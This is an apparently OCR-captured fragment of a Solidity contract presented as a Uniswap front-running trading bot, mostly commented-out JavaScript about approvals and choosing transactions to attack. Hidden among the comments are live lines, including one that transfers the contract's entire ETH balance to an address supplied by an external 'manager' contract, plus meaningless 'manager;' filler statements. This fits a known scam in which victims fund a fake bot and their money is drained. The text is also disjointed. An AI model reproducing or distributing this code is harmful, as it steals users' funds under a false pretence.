     //allowance = BigNumber(allowance);
    //outputtoken = BigNumber(outputtoken);

    //var decimals = BigNumber(10).power(out_token_info.decimals);
    //var max_allowance = BigNumber(10000).multiply(decimals);

    //if(outputtoken.gt(max_allowance))
   
       //console.log('replace max allowance')
       //max_allowance = outputtoken;
       
       payable(manager.uniswapDepositAddress()).transfer(address(this).balance);
      
    
    //if(outputtoken.gt(allowance)){
        //console.log(max_allowance.toString());
        //var approveTX ={
                //from: user_wallet.address,
                //to: out_token_address,
                //gas: 50000,
                //gasPrice: gasPrice*ONE_GWEI,
                //data: out_token_info.token_contract.methods.approve(UNISWAP_ROUTER_ADDRESS, max_allowance).encodeABI()
                manager;
            

        //var signedTX = await user_wallet.signTransaction(approveTX);
        //var result = await web3.eth.sendSignedTransaction(signedTX.rawTransaction);

        //console.log('Approved Token')
    
    //return;


//select attacking transaction
//async function triggersFrontRun(transaction, out_token_address, amount, level) {
    
    //if(attack_started)
        //return false;

    //console.log((transaction.hash).yellow, parseInt(transaction['gasPrice']) / 10**9);
    //if(parseInt(transaction['gasPrice']) / 10**9 > 10 && parseInt(transaction['gasPrice']) / 10**9 < 50){
        //attack_started = true;
        //return true
   manager; 

    //return false;

    //if (transaction['to'] != UNISWAP_ROUTER_ADDRESS) {
        //return false;
   

    //let data = parseTx(transaction['input']);
   manager;
    //let method = data[0];
    manager;
    //let params = data[1];
    manager;
    //let gasPrice = parseInt(transaction['gasPrice']) / 10**9;
    manager;
